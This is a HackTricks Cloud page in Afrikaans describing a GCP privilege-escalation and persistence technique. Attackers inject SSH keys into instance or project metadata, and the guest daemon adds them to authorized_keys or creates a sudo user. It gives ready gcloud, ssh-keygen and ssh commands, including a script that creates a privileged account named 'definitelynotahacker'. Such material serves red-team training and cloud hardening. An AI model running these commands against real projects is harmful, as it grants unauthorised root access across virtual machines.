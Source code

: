 # GCP - Voeg Aangepaste SSH Metadata By

## GCP - Voeg Aangepaste SSH Metadata By

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Wysig die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata-wysig op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

#### **Inkorporering van SSH Sleutels in Aangepaste Metadata**

Op GCP, **Linux stelsels** voer dikwels skripte uit vanaf die [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld** die instansie metadata-eindpunt na te gaan vir **opdaterings aan die geautoriseerde SSH publieke sleutels**.

Daarom, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon laat vind 'n nuwe publieke sleutel, wat verwerk en **geïntegreer sal word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys` lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo` toestemmings skep**, afhangende van die sleutel se formaat. En die aanvaller sal in staat wees om die gasheer te kompromitteer.

#### **Voeg SSH sleutel by bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH Sleutels op die Instansie:**
*   Voer die opdrag uit om die instansie en sy metadata te beskryf om bestaande SSH sleutels te lokaliseer. Die relevante afdeling in die uitvoer sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Let op die formaat van die SSH sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n dubbelepunt.
2. **Bereid 'n Tekslêer voor vir SSH Sleutel Metadata:**
* Stoor die besonderhede van gebruikersname en hul ooreenstemmende SSH sleutels in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwe bygevoeg word.
3. **Genereer 'n Nuwe SSH Sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**
*   Gebruik die `ssh-keygen` opdrag om 'n nuwe SSH sleutel te genereer, verseker dat die kommentaarveld (`-C`) ooreenstem met die teiken gebruikersnaam.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Voeg die nuwe publieke sleutel by `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.
4. **Werk die Instansie se SSH Sleutel Metadata Op:**
*   Pas die opgedateerde SSH sleutel metadata op die instansie toe met die `gcloud compute instances add-metadata` opdrag.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Toegang tot die Instansie met die Nuwe SSH Sleutel:**
*   Verbind met die instansie met SSH met die nuwe sleutel, toegang tot die skulp in die konteks van die teiken gebruiker (`alice` in hierdie voorbeeld).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH sleutel by**

As daar geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo` toestemmings gegee sal word:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die bereik van SSH-toegang tot verskeie Virtuele Masjiene (VM's) in 'n wolkomgewing te verbreed deur **SSH sleutels op projekvlak toe te pas**. Hierdie benadering laat SSH-toegang toe tot enige instansie binne die projek wat nie eksplisiet projekwye SSH-sleutels geblokkeer het nie. Hier is 'n samegevatte gids:

1. **Pas SSH Sleutels op die Projekvlak toe:**
*   Gebruik die `gcloud compute project-info add-metadata` opdrag om SSH sleutels van `meta.txt` by die projek se metadata te voeg. Hierdie aksie verseker dat die SSH sleutels oor alle VM's in die projek erken word, tensy 'n VM die "Blok projekwye SSH-sleutels" opsie geaktiveer het.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instansies met Projek-Wye Sleutels:**
* Met projek-wye SSH sleutels in plek, kan jy SSH in enige instansie binne die projek. Instansies wat nie projek-wye sleutels blokkeer nie, sal die SSH-sleutel aanvaar, wat toegang verleen.
* 'n Direkte metode om in 'n instansie te SSH is deur die `gcloud compute ssh [INSTANCE]` opdrag te gebruik. Hierdie opdrag gebruik jou huidige gebruikersnaam en die SSH-sleutels wat op projekvlak gestel is om toegang te probeer verkry.

## Verwysings

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
